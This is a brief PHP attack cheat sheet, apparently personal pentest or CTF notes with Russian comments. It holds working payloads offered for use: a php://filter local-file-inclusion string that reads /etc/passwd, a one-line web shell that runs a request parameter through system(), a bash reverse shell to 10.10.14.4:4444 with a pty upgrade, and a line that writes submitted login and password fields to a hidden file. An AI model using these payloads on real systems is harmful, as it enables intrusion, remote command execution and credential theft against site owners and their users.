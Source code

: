 # PHP

# PHP filter

php://filter/convert.base64-encode/resource=config

image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

python -c 'import pty;pty.spawn('/bin/bash')'
# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);

#PHP server

php -S 127.0.0.1:80 и запускаем ето в том каталоге где лежит файл php

Передача параметров - $1
